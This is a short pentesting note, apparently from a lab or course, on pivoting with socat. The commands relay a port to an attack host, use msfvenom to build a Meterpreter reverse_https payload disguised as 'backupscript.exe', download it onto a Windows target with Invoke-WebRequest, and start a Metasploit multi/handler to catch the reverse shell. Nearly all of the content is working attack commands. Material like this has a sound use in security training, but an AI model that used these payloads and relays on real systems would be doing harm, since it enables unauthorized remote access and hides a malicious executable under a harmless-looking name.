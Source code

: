 >[!tldr] Socat is a bidirectional relay tool that creates pipe sockets between 2 independent network channels without SSH tunneling. It acts as a redirector that can listen on one host and port and forward the data to another IP address and port

#### Start Socat Listener
```go
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

	NOTE: Listens on port 8080 and forwards all traffic to port 80 on attack host

Now create a payload to connect back to your redirector on the Ubuntu server

#### Create msfvenom payload
```go
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

You can transfer the payload via a python server or using the below PowerShell cmdlet Invoke-WebRequest:
```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Start MSF Console
```go
sudo msfconsole
```

#### Configuring & Starting the multi/handler
```go
use exploit/multi/handler
```

```go
set payload windows/x64/meterpreter/reverse_https
```

```go
set lhost 0.0.0.0
```

```go
set lport 80
```

```go
run
```

